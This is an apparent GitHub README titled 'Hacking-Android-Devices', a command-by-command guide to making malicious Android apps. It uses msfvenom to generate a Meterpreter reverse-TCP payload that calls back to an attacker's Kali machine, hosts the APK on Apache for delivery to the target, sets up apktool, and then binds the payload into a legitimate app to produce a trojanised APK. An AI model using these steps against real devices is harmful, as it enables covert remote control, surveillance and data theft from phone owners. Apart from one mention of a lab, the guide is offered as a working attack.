 # Hacking-Android-Devices
Hacking Android Devices using malicious APK's

1st creating a simple malicious apk file using msfvenom
<pre>msfvenom -p android/meterpreter/reverse_tcp LHOST=kali_ip LPORT=2222 -o /root/malicious.apk</pre>

Send the file to the mobile or android lab using
<pre>mv malicious.apk /var/www/html/</pre>
<pre>service apache2 start</pre>
<pre>service apaceh2 status</pre>

-----------------------------------------------------------------
2nd Bind the payload in the legitimate android app using APKTOOl

Pre-requisites/ Libraries
Check if the APKTOOL version contains DIRTY
<pre>apktool --version</pre>
If it contains DIRTY in the version then remove it
<pre>apt remove apktool</pre>
Then follow next steps:
<pre>apt update</pre>
<pre>apt install zipalign</pre>
<pre>apt install default-jdk</pre>
<pre>apt install default-jre</pre>
<pre>apt install jarsigner</pre>
<pre>apt install apksigner</pre>
<pre>apt install libcurses5</pre>
<pre>apt install libncurses6</pre>
<pre>apt install lib32z1</pre>
<pre>apt install lib32stdc++6</pre>
Once all the above is done. reboot Kali Linux
<pre>reboot</pre>
After rebooting
go to 
<pre>apktool.org</pre>
Then INSTALL > under Linux > click WRAPPER SCRIPT > Copy and paste the code in an EMPTY file on KALI LINUX Desktop and name it APKTOOL.<br>
Then click LATEST VERSION of apktool > Download which ever is the latest version of apktool_2.12.2.jar<br>
After downloading rename apktool_2.12.2.jar to apktool.jar<br>
Move both files to this directory
<pre>mv apktool apktool.jar /usr/local/bin/</pre>
Give executable permissions to apktool<br>
<pre>chmod +x apktool</pre>
Check the APKTOOL version now
<pre>apktool --version</pre>
Once you get the response like: 2.12.2<br>
<pre>msfvenom -x ORIGINAL.apk -p android/meterpreter/reverse_tcp LHOST=Kali_ip LPORT=2222 -o /root/binded.apk</pre>

